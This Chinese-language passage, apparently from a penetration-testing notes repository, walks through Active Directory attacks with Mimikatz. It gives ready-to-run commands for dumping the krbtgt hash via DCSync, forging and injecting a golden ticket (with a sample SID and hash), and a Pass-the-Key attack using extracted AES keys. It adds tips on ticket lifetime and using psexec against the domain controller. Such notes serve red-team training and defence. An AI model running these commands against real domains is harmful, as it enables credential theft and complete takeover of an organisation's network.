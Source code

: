 > 导入的票据在20分钟内有效，过期之后再次导入就行

现在可以访问域控共享目录，还能在 DC 上远程执行 psexec

但是需要注意的是用 psexec 远程执行命令的时候，需要不能使用 IP 访问。使用 NetBios 的服务名访问才会走 Kerberos 认证，达到伪造凭据的攻击

**例子**

在数据库服务器上，利用域管理员的权限获得 krbtgt 的 NTLM 哈希 和 SID

使用 Mimikatz 抓取 Krbtgt 账号的密码
```
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt" > log.txt
```

![](../../../assets/img/安全/工具/mimikatz/3.png)

得到 krbtgt 哈希之后，使用 mimikatz 的 `kerberos::golden` 生成黄金票据 `test.kiribi`：
```
kerberos::golden /user:administrator /domain:FFFFFFFF0X.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /krbtgt:743093920acd8d427323c24c0e2c52c2 /ticket:test.kiribi
```
`/admin` 为伪造的用户名，用户名可以任意伪造 `/domain` 为目标的域名 `/sid` 为目标域名的 SID `/krbtgt` 为 krbtgt 账户密码的 NTLM Hash `/ticket` 为要伪造的黄金票据的名称

注入黄金票据
```
kerberos::ptt test.kiribi
```

访问测试

![](../../../assets/img/安全/工具/mimikatz/4.png)

---

# PTK

```
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击

